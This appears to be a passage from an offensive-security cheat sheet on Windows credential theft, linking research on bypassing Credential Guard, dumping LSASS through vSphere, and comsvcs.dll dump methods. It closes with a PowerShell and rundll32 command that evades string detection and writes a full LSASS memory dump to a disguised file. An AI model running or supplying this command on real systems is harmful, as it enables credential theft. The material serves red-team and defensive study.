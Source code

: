 Two PoCs above merged:

- [https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99](https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99)



### PassTheChallenge

- [https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)
- [https://github.com/ly4k/PassTheChallenge](https://github.com/ly4k/PassTheChallenge)



### CVE-2025-21299, CVE-2025-29809

- [https://www.netspi.com/blog/technical-blog/adversary-simulation/cve-2025-21299-cve-2025-29809-unguarding-microsoft-credential-guard/](https://www.netspi.com/blog/technical-blog/adversary-simulation/cve-2025-21299-cve-2025-29809-unguarding-microsoft-credential-guard/)




## Attacking vSphere

- [https://jamescoote.co.uk/introducing-sharpsphere/](https://jamescoote.co.uk/introducing-sharpsphere/)
- [https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/](https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/)
- [https://github.com/JamesCooteUK/SharpSphere](https://github.com/JamesCooteUK/SharpSphere)




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)
* [https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py](https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py)
* [https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
* [https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/](https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/)
* [https://badoption.eu/blog/2023/06/21/dumpit.html](https://badoption.eu/blog/2023/06/21/dumpit.html)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```
